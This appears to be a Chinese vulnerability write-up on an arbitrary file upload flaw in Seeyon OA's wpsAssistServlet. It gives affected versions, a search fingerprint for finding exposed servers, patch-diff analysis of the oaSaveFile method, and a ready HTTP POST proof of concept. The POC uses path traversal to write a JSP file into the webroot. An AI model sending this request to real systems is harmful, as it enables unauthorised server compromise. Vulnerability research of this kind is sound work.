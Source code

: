 # 致远OA wpsAssistServlet 任意文件上传漏洞

## 漏洞描述

致远OA wpsAssistServlet接口存在任意文件上传漏洞，攻击者通过漏洞可以发送特定的请求包上传恶意文件，获取服务器权限

## 漏洞影响

<a-checkbox checked>致远OA A6、A8、A8N (V8.0SP2，V8.1，V8.1SP1)</a-checkbox></br>

<a-checkbox checked>致远OA G6、G6N (V8.1、V8.1SP1)</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA" && title="V8.0SP2"</a-checkbox></br>

## 漏洞复现

产品主页

![img](../../../.vuepress/public/img/1658806205627-07ce1bd0-adf1-4aae-9f3a-a6885bf8bfd7.png)

下载补丁220706-S004 ，对比修改的文件

![img](../../../.vuepress/public/img/1658806584119-32f25f71-5351-4781-ab5b-7435032ec7ec.png)

主要修改的是 `com.seeyon.ctp.common.wpsassist.manager.WpsAssistManagerImpl.oaSaveFile` 这个方法

```php
private Map<String, Object> oaSaveFile(HttpServletRequest request, Map<String, Object> param) throws Exception {
        Map<String, Object> result = Maps.newHashMap();
        result.put(BusinessKey.OfficeTransResultFlag.getCode(), (Object)null);
        Long fileId = MapUtils.getLong(param, "fileId");
        log.info("wpsAssist SaveFile start!fileId=" + fileId);
        String newPdfFileId = MapUtils.getString(param, "newPdfFileId");
        if (Strings.isNotBlank(newPdfFileId)) {
            fileId = Long.valueOf(newPdfFileId);
        }

        String realFileType = MapUtils.getString(param, "realFileType");
        String tempFileIdPathSuffix = SystemEnvironment.getSystemTempFolder() + File.separator + fileId + realFileType;
        Long count = this.saveFileToPath(request, tempFileIdPathSuffix);
        result.put(BusinessKey.FileSize.getCode(), count);
        result.putAll(this.createOfficeTransCacheFile(fileId, tempFileIdPathSuffix, MapUtils.getString(param, "canTransFileType")));
        param.put(BusinessKey.OfficeTransResultFlag.getCode(), result.get(BusinessKey.OfficeTransResultFlag.getCode()));
        this.copyToUploadAndTrans(param);
        return result;
    }
```

向上追溯调用的 oaSaveFile方法的代码

![img](../../../.vuepress/public/img/1658806789623-07df56ba-fe62-4c0d-9374-11cfc3077bdf.png)

![img](../../../.vuepress/public/img/1658807010120-47006179-52db-4d27-8e18-fe00dbc8482a.png)

在 `com.seeyon.ctp.common.wpsassist.WpsAssistServlet.doPost` 中，flag参数为save时，可以调用文件上传接口

![img](../../../.vuepress/public/img/1658809800167-1f074e5b-88b2-468c-b29f-794f8d5ddfaa.png)

`C://Seeyon/A6/base/temporary` 为默认上传的位置，但 `realFileType, fileId` 参数可控，可以通过 ../ 遍历上传到任意目录下，验证POC

```php
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/debugggg.jsp&fileId=2 HTTP/1.1
Host: 
Content-Length: 349
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("seeyon_vuln");%>
--59229605f98b8cf290a7b8908b34616b--
```



![img](../../../.vuepress/public/img/1658810152744-1a171b0d-25f0-4c99-9ff4-4202c66d40b3.png)

![img](../../../.vuepress/public/img/1658810231876-43f625d6-dc8f-421d-96ae-f753722bf2c5.png)